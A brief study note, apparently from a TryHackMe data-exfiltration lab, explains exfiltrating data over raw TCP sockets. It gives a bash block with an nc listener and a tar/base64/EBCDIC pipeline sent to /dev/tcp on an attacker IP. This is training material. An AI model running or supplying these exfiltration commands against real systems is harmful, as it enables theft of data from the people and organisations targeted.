 # Data Exfiltration with - TCP Sockets

It uses the [[Transport-Layer-TCP]] protocol, but is easy to detect as reliant on non-standard protocols only useful on networks with no known secruity products.

1. Attacker listening over TCP/8080
2. Client connect to TCP/8080
3. Attacker establishes the connection
4. Sending and recieving of data starts

```bash
# Attacker
nc -lvp 8080 > /tmp/exfil.data &
# Client
# Get on here some how..
tar zcf - $data_dir/ | base64 | dd conv=ebcdic > /dev/tcp/$attackIP/8080
# Attacker
dd conv=ascii if=$file | base64 -d > $file.tar
tar xvf $file.tar
```

## References

[THM Data Exfiltration](https://tryhackme.com/room/dataxexfilt)